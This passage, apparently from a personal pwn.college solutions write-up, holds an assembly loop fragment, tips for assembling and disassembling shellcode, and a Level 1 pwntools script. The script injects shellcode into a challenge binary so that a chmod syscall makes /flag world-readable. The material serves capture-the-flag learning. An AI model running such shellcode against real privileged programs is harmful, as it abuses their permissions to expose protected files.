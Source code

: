 ```python
            not_larger:
                add rcx, 1
                jmp max_loop
            max_loop_end:
            int3
            ret
'''
```





****

#  Injection

In this GitHub repository, you can find some alternatives to my solutions, but I tried to make mine simpler:
https://github.com/142y/pwn_college_solutions/tree/main/Shellcode-Injection-Solutions

Linux syscall table: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

> For debugging, you can use objdump. You can find a brief tutorial in the blue box in **level1** of the [**Assembly**](#Assembly) section. The gist of it is to assemble your script `injection.s` with `as -o injection.o injection.s`, and then disassemble the executable with `objdump -M intel -d injection.o`. This will allow you to see the bytes into which the assembly code is being converted. This will be useful in the upcoming challenges.
> If you want also to execute the assembly, you can do it with `ld injection.o -o injection` and then running the executable with `./injection`

You can find the same challenges here (this sie will no be closed): https://pwn.college/program-security/shellcode-injection/

****

## Level1

**injection.py**

```python
from pwn import *
import subprocess

file = "/challenge/babyshell_level1"
context.update(arch="x86-64", encoding="latin")

shellcode = '''
    /* chmod syscall */
    mov rax, 90 
    lea rdi, [rip+flag]
    mov rsi, 0777		/* 0777 in chmod corresponds to a=rwx */
    syscall

flag:
    .asciz "/flag" 
'''
shellcode = asm(shellcode)

process = subprocess.Popen([file], stdin=subprocess.PIPE)
process.communicate(shellcode)
```
